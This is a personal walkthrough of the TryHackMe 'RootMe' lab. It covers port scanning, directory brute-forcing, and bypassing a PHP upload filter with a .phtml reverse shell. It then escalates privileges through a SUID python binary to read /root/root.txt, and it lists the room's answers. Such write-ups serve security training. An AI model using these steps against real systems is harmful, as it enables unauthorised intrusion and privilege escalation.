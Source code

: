 # RootMe

This is my write-up for the machine on TryHackMe called **RootMe**: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

I first ran an nmap scan on the IP address:

```c
sudo nmap -T4 -A 10.10.78.153
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-20 15:45 EDT
Nmap scan report for 10.10.78.153
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/20%OT=22%CT=1%CU=38132%PV=Y%DS=4%DC=T%G=Y%TM=6148E50
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O
OS:3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   36.67 ms  10.6.0.1
2   ... 3
4   100.50 ms 10.10.78.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.63 seconds

```

My first step was to visit the website on port 80:

![](<../../.gitbook/assets/image (192).png>)

There seems to be nothing on the website other that the following text. I then ran **feroxbuster** with the big.txt file from the Seclists Github repository:

![](<../../.gitbook/assets/image (189).png>)

Two links stood out to me:

![](<../../.gitbook/assets/image (188).png>)

![](<../../.gitbook/assets/image (195).png>)

My assumption was to upload the **pentestmonkey php-reverse-shell** and then get a webshell using that. I first updated the script to have my information in it (IP and port):

![](<../../.gitbook/assets/image (185).png>)

Apparently PHP is not permitted:

![](<../../.gitbook/assets/image (198).png>)

I then though about using an alternative php version like phtml. That worked... a bit:

![](<../../.gitbook/assets/image (196).png>)

However, I was not able to get a shell on the system. I then tried the original pentestmonkey script, but then I changed the extension to be **.phtml**, and it worked:

![](<../../.gitbook/assets/image (191).png>)

At this point, I had realized that I had to answer questions on the TryHackMe site.&#x20;

> Scan the machine, how many ports are open? **2**
>
> What version of Apache is running? **2.4.29**
>
> What service is running on port 22? **ssh**
>
> What is the hidden directory? **/panel/**

Back to the shell, I was trying to find the user.txt file. It was not in the home directory folders. I then ran:

```c
find / -name user.txt
```

I then saw the following in the big output:

![](<../../.gitbook/assets/image (193).png>)

I then got the user.txt flag:

![](<../../.gitbook/assets/image (187).png>)

I then had to view the hint provided to see what command I should run to check for files with SUID permission. They recommended **find / -user root -perm /4000**. I ran that command and noticed a couple commands I could potentially use:

![](<../../.gitbook/assets/image (197).png>)

On TryHackMe, the format of the question seems to be in the following format:

![](<../../.gitbook/assets/image (186).png>)

This means that the executable has to be 6 letters in size. I tried **/usr/bin/python** and it worked. I went to **GTFOBins** and searched on it for python. I then came across the following:

![](<../../.gitbook/assets/image (190).png>)

I ran this code, but modified it to read the file from the root directory:

```c
python -c 'print(open("/root/root.txt").read())'
```

I then got the flag:

![](<../../.gitbook/assets/image (194).png>)
